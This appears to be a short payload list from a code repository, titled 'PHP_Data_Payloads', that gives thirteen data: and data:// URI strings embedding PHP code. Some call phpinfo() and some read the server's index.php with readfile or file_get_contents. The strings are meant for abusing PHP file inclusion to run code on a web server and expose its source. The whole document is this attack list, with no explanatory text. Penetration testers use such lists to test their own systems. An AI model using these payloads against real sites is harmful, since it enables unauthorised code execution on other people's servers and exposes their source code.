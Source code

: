 ## PHP_Data_Payloads
    
    data:text/plain,<?php phpinfo(); ?>
    data://text/plain,<?php phpinfo(); ?>
    data:application/x-php,<?php phpinfo(); ?>
    data://application/x-php,<?php phpinfo(); ?>
    data:application/x-httpd-php,<?php phpinfo(); ?>
    data://application/x-httpd-php,<?php phpinfo(); ?>
    data:application/x-php,<?php echo readfile('index.php'); ?>
    data://application/x-php,<?php echo readfile('index.php'); ?>
    data:text/plain,<?php echo readfile('index.php'); ?>
    data://text/plain,<?php echo readfile('index.php'); ?>
    data:text/plain,<?php echo file_get_contents('index.php'); ?>
    data://text/plain,<?php echo file_get_contents('index.php'); ?>
    data://application/x-httpd-php,<?php echo readfile('index.php'); ?>
